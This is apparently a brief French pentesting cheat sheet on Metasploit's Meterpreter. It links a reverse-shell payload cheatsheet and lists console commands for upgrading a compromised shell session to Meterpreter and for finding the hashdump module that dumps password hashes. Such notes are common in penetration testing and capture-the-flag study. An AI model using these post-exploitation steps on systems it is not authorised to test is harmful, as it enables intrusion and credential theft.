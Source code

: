 # Meterpreter

Quelques commandes utiles

## URLs

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/


## Shell 2 meterpreter
```
search shell_to_meterpreter
use 0
```
Ensuite on choisi la session que l'on souhaite faire évoluée

```
sessions
set session X
```
Où "X" est le numéro de session. Ensuite on `run`.

## Hashdump

```
search hashdump
```
